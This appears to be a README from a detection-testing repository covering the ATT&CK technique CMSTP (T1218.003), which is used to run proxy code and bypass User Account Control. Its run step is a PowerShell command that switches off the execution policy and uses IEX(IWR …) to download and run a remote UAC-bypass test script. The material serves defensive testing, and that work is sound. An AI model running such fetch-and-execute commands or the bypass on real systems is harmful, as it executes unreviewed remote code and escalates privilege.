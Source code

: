 # T1218.003 - CMSTP
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/003)
<blockquote>Adversaries may abuse CMSTP to proxy execution of malicious code or to [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002).

The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

CMSTP.exe can be abused to and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)</blockquote>

## Tests

- CMSTP Executing UAC Bypass

## How To Run
Open PowerShell.exe as an administrative user, but **do not** "Run as Administrator". Then execute the following commands:

```PowerShell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force

IEX(IWR "https://raw.githubusercontent.com/SecurIT360/TTP-Detection-Testing/main/Defense-Evasion/T1218.003/CMSTP_UACBypass_Test.ps1")
```